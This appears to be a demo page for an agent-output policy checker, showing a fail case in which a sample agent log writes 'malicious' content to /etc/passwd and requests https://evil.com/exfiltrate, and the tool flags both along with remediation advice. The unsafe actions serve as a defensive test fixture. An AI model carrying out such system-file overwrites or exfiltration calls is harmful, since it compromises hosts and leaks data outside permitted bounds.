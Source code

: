 # Demo: RJW Guard (Fail Case)

## Scenario
Validating an unsafe agent output that violates multiple policies.

## Input File: `examples/bad.json`
```json
{
  "agent_id": "unsafe-agent",
  "timestamp": "2025-10-07T10:00:00Z",
  "version": "0.1.0-alpha",
  "actions": [
    {
      "type": "file_write",
      "path": "/etc/passwd",
      "content": "malicious",
      "signed": false
    }
  ],
  "steps": [
    {
      "type": "http_request",
      "url": "https://evil.com/exfiltrate",
      "network_allowed": false
    }
  ]
}
```

## Command
```bash
$ rjw guard examples/bad.json
```

## Output
```
✖ Policy violations: 3 (ruleset=default)
 • DRIFT_UNSAFE_WRITE @ $.actions[0] → Use sandboxed path or add signature verification
 • DRIFT_UNSAFE_PATH @ $.actions[0] → Use paths within project sandbox directory
 • NET_CALL_FORBIDDEN @ $.steps[0] → Rerun with --online or disable network access
```

## Exit Code
```
$ echo $?
2
```

## JSON Output (with --format json)
```bash
$ rjw guard examples/bad.json --format json
```

```json
{
  "input_source": "examples/bad.json",
  "passed": false,
  "violations": [
    {
      "code": "DRIFT_UNSAFE_WRITE",
      "severity": "error",
      "message": "Unsigned file write detected",
      "path": "$.actions[0]",
      "remediation": "Use sandboxed path or add signature verification"
    },
    {
      "code": "DRIFT_UNSAFE_PATH",
      "severity": "error",
      "message": "File write outside sandbox: /etc/passwd",
      "path": "$.actions[0]",
      "remediation": "Use paths within project sandbox directory"
    },
    {
      "code": "NET_CALL_FORBIDDEN",
      "severity": "error",
      "message": "Network call without permission",
      "path": "$.steps[0]",
      "remediation": "Rerun with --online or disable network access"
    }
  ],
  "summary": {
    "errors": 3,
    "warnings": 0,
    "ruleset": "default",
    "duration_ms": 15
  }
}
```

## Analysis of Violations

### 1. DRIFT_UNSAFE_WRITE
**Problem**: File write operation lacks signature verification
**Risk**: Unsigned writes could modify critical files without audit trail
**Fix**: Add `"signed": true` and implement signature verification

### 2. DRIFT_UNSAFE_PATH
**Problem**: Attempting to write to `/etc/passwd` (system file)
**Risk**: Could compromise system security
**Fix**: Use paths within project sandbox (e.g., `./sandbox/output.txt`)

### 3. NET_CALL_FORBIDDEN
**Problem**: Network request without explicit permission
**Risk**: Data exfiltration or unauthorized external communication
**Fix**: Either:
  - Remove network call if not needed
  - Add `"network_allowed": true` if reviewed and approved
  - Use `--online` flag if expected behavior

## Remediation Steps

1. **Rewrite to sandboxed path**:
   ```json
   {
     "type": "file_write",
     "path": "./sandbox/output.txt",
     "content": "safe content",
     "signed": true
   }
   ```

2. **Remove or justify network call**:
   - If needed: Document in decision log why network access required
   - If not needed: Remove the step entirely

3. **Re-validate**:
   ```bash
   $ rjw guard examples/fixed.json
   ✔ Validation passed
   ```

## Verdict
🛑 **DO NOT PROCEED** - Multiple critical security violations detected.

## Learning Points
- Always write to sandboxed directories
- Sign all file operations for audit trail
- Explicitly declare network requirements
- Use guard validation before executing agent outputs
